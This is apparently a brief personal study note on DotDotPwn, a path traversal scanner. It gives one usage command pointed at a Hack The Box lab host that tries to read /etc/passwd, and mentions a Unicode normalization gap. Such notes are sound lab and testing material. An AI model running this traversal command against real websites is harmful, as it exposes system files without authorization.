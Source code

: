 #tool

# DotDotPwn
## What is DotDotPwn?
DotDotPwn is a path traversal scanning tool for use on websites.

## How do I use DotDotPwn?
`perl dotdotpwn.pl -m http-url -u "http://hackmedia.htb/display/?page=TRAVERSAL" -b -s -k "root:" -f /etc/passwd`

## Any documentation on DotDotPwn?
TODO

## Any caveats I should be aware of?
* Does not catch Unicode Normalization vulnerabilities.
	* Patched in `ath3no-dotdotpwn`, under the `unicode` lab in Documents/htb.